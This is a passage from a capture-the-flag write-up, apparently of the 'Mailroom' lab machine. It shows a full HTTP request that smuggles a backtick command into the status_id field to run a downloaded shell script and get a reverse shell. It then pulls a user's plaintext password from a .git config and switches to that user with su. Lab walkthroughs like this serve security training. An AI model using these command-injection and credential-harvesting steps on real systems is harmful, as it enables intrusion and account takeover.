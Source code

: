It downloaded the `shel;l.sh` script from the HTTP Server

![](/img/Mailroom_80349240b60d40f697ec5fe41f13d646/Untitled_14.png)

Now, we just execute the bash script:

```jsx
POST /inspect.php HTTP/1.1
Host: staff-review-panel.mailroom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: http://staff-review-panel.mailroom.htb
Connection: close
Referer: http://staff-review-panel.mailroom.htb/inspect.php
Cookie: PHPSESSID=b650e6ee5cb719dd1287420443922d58
Upgrade-Insecure-Requests: 1

status_id=%60%3B%20bash%20%2Ftmp%2Fshell%2Esh%60
```

Doing so, we got the reverse shell on the `staff-review-panel.mailroom.htb` 

![](/img/Mailroom_80349240b60d40f697ec5fe41f13d646/Untitled_15.png)

Checking the docker filesystem, nothing much was found though the `/var/www/staffroom` had `.git` folder which had `config` file containing the credentials for the `matthew` user:

![](/img/Mailroom_80349240b60d40f697ec5fe41f13d646/Untitled_16.png)

```jsx
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://matthew:HueLover83%23@gitea:3000/matthew/staffroom.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
[user]
	email = matthew@mailroom.htb
```

I tried to SSH as `matthew` but it resulted in failure, so from the `tristan` session, we can just do `su` to change to `matthew`

![](/img/Mailroom_80349240b60d40f697ec5fe41f13d646/Untitled_17.png)
